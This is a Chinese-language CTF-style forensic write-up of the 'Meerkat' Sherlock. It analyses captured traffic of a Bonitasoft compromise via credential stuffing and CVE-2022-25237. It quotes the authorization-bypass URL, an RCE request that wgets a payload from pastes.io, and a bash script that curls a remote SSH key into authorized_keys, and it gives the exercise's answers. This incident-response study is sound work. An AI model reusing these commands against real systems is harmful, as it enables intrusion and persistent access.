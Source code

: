 # Meerkat

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。不幸的是，我们的文档资料有限，我们的管理员也不太重视安全。作为我们的新安全服务提供商，我们希望你能看一看我们导出的一些 PCAP 和日志数据，确认我们是否受到了（或者没有受到）侵害。

:::

## 题目数据

[meerkat.zip](./meerkat.zip)

## Task 1

> 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。

在流量包中，使用以下语句进行筛选

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

在 url 部分，可以发现这份字符串

```plaintext
bonita
```

经过搜索，可以定位到这个 `bonitasoft` 这个平台

```plaintext title="Answer"
bonitasoft
```

## Task 2

> 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？

查看后续的一些 http 包，可以发现产生了大量失败的登录请求，可以怀疑攻击者正在尝试进行凭据爆破

```plaintext title="Answer"
Credential Stuffing
```

## Task 3

> 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？

:::note

为了分析方便，这里将

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

筛选器得到的分组结果导出为新的 pcap 文件，再进行分析

可能会导致 tcp 流的编号与原始 pcap 包不一致

:::

根据后续的流量，可以发现攻击者登陆成功后 POST 形式发送了一个 zip 文件

![wireshark POST zip](img/image_20231205-160549.png)

并且后续进行了利用

![wireshark POST zip 漏洞利用](img/image_20231206-160635.png)

根据所得到的信息，可以定位到 `CVE-2022-25237` 这个漏洞编号

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4

> 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？

将攻击者访问的 api url 请求进行提取

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

可以分析出字符串为 `i18ntranslation`

```plaintext title="Answer"
i18ntranslation
```

## Task 5

> 在凭证填充攻击中使用了多少组用户名和密码的组合？

简单统计一下 http POST url=="/bonita/loginservice" status_code==204 的请求即可

```plaintext title="Answer"
56
```

## Task 6

> 哪个用户名和密码组合成功了？

查看凭据爆破的最后一次请求

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

即可得到

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7

> 如果有的话，攻击者使用了哪个文本分享网站？

在流量中，发现这么一个会话

```plaintxt
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5811198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8

> 请提供攻击者用于在我们主机上获得持久性的公钥文件名。

对上文流量中使用的远程载荷 `https://pastes.io/raw/bx5gcr0et8` 下载下来进行分析

```bash title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9

> 您能确认攻击者修改的文件以获取持久性吗？

上文的载荷中就有

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10

> 您能确认这种持久性机制的 MITRE 技术 ID 吗？

Google Search: `MITRE technique authorized_keys`

```plaintext title="Answer"
T1098.004
```
